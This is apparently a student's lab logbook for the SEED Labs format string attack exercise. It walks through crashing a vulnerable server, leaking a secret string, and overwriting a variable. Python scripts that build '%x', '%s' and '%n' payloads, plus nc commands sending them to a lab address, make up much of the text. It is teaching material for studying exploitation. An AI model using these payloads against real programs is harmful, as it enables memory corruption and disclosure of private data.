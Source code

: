 # LogBook6

## SEED Labs – Format String Attack Lab

### Task 1

Crashing the program. Doing `echo hello | nc 10.9.0.5 9090` causes no problems
and returns properly. Compiling attack-code/build\_string.py, will generate a
file named badfile. when we try to print this file by doing `cat badfile | nc
10.9.0.5 9090`, and redirect it's output to the server the program crashes.

build\_string.py code:

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0xbfffeeee
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*12 + "%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

The crash itself was cause by the format specifier `%n` which tried to write to
an address which wasn't valid. There are other ways to crash the application,
for example, if a `%s` was sent, and the address that the format string tried
to look up on the stack wasn't a valid string, the execution would also be
halted. That can also be done on this lab. Since there are various ways to do
this, the simplest way to explain when the program will crash is:

When a format specifier is provided that doesn't match what is in memory, where
the argument to that specifier was expected to be in, a crash will occur.

![Crash](images/seedlabs-formatstring/tarefa6_task1.PNG)

### Task 2

#### 2-A

Our input starts with a succession of '0xaaaaaaaa' in hexadecimal. So it's
easier to identify where that sequence starts being printed on the server
output. Immediately after that we send a bunch of `%.8x` format specifiers,
hoping that one of those will eventually print out the first 4 bytes of our
input file.

```py
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# first 4 bytes as 0xaaaaaaaa
content[0:4]  =  (0xAAAAAAAA).to_bytes(4, byteorder='little')

s = "%.8x"*100
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

Here is the server output after sending the file generated by the previous
script:

![Server Output](images/seedlabs-formatstring/tarefa6_task2A.PNG)

As we can see in the produced output, it takes the server program 508
characters to print out the first bytes of our input. Since we sent
`0xaaaaaaaa`, which is 4 bytes this means that 504 bytes were printed by the
`%.8x` format specifiers. Dividing 504 by 8 gives us 63, meaning that the 64th
`%x` will print the first four bytes of our input.

![Length of string](images/seedlabs-formatstring/distance-task2a.png)

#### 2-B

With the knowledge of the previous task, and by knowing the address of the
secret message, which is printed out by the program, we just have to send the
address, and the 64th format specifier will print the content of that address.
Knowing it's a message we use the string format specifier `%s`.

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# first 4 bytes with address of secret message
target = 0x080b4008
content[0:4]  =  (target).to_bytes(4,byteorder='little')

s = "%.8x"*63 + "%s"
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

Here's the secret message printed out on the server's output:

![Secret Message](images/seedlabs-formatstring/secret-message.png)

### Task 3

#### 3-A

Now we have to write to an address, instead of just reading it. Luckily there's
a special format specifier, this is the `%n` format specifier. We can better
understand what it does by looking at the printf function documentation:

![Format specifier documentation](images/seedlabs-formatstring/specifier-documentation.png)

So if we append a `%n` and the argument looked up is the target address, the
number of characters printed before the `%n` format specifier is written to the
target address. To test this out we used the following code:

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# first 4 bytes with address of target variable
target = 0x080e5068
content[0:4]  =  (target).to_bytes(4,byteorder='little')

s = "%.8x"*63 + "%n"
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

After sending this as input the server, we can confirm that the target address
has been indeed modified.

![Overwriting target](images/seedlabs-formatstring/overwriting-target.png)

#### 3-B

This time, we want to change the target content to a specific value. The value
we want to write in the target is 0x5000, which is 20480 in decimal. However
the buffer only has 1500 bytes allocated. Which means we don't have enough
memory available to send 20480 characters. To circumvent this limitation, we
make use of the format specifier padding functionality. Just as `%.8x` formats
an address to 4 bytes, padding the left side with zeros, we can write more
characters by providing a higher number than 8, and those characters are still
added to the counter of the `%n` written characters, even if they're just
zeros.

Since the value written on the previous task was 0x1fc, 508 in decimal, we need
to add 19972 characters to an `%x` format specifier, so the total is 20480.
Adding this will result in having 62 `%.8x` and 1 `%.19980x`. Such was written
on our exploit:

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# first 4 bytes with address of target variable
target = 0x080e5068
content[0:4]  =  (target).to_bytes(4,byteorder='little')

s = "%.8x" * 62 + "%.19980x" + "%n"
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

Target variable was overwriten with the desired value 0x5000:

![Writing target with 0x5000](images/seedlabs-formatstring/writing-target-5000.png)

